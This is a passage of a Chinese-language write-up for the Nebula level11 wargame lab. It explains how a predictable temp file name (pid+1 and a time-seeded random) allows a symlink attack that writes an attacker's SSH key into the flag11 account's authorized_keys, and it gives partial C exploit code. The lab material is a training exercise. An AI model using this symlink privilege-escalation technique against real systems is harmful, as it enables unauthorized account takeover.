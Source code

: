 结果却发现提示没有权限，百思不得其解。使用IDA逆向`flag11`程序后发现，在执行`system()`函数前先将`effective user id`又设置了回去：

![](Exploit-exercises-Nebula-remaining/level11_1.png)

这与题目中给出的源码并不相同:joy:，本以为已到了绝路。后来通过查找[资料](https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9)发现，其实题目程序中还有另外可以利用的地方：写文件。在进行写文件的时候，利用的仍然是`effective user id`，可以以flag11的权限来写文件，这也是题目中费尽心机要搞一个随机文件名的目的。

题目源码中生成随机文件名一是体现在`pid`上，但一般来说新建一个进程，它的`pid`是会比上一个进程的`pid`自增1的，所以也是可预测的，即为管道左面的程序`pid+1`；另一个是体现在随机数上，但这里用到的是伪随机，通过`srandom()`设置的种子只要相同，之后产生的随机数序列都是一致的，而这里用到的`time()`函数单位是**秒**，因此也是存在利用的空间的。管道左右两个连续执行的小程序，其`time()`的返回值是大概率相同的。

注意到flag11用户目录下存在`.ssh`文件夹，我们可以在此文件夹下写入我们的公钥到文件`authorized_keys`中，就可以直接ssh登录至flag11账户了。

我们可以编写一程序，创建一个和flag11程序要创建的临时文件同名的文件，将它符号链接到`/home/flag11/.ssh/authorized_keys`，然后输出内容构造为公钥文件内容即可。

代码如下：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>


int getrand(char **path, int pid, int time)
{
  char *tmp;
  int fd =  0;

  srandom(time);

  tmp = getenv("TEMP");
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));


  return fd;
}


#define CL "Content-Length: "

int main(int argc, char **argv)
{
  char line[256];
  char buf[2048] = "ssh-rsa your public key here...";

  int pid;
  int fd;
  char *path;

  pid = getpid()+1;
  getrand(&path, pid, time(NULL));
  symlink("/home/flag11/.ssh/authorized_keys",path);
```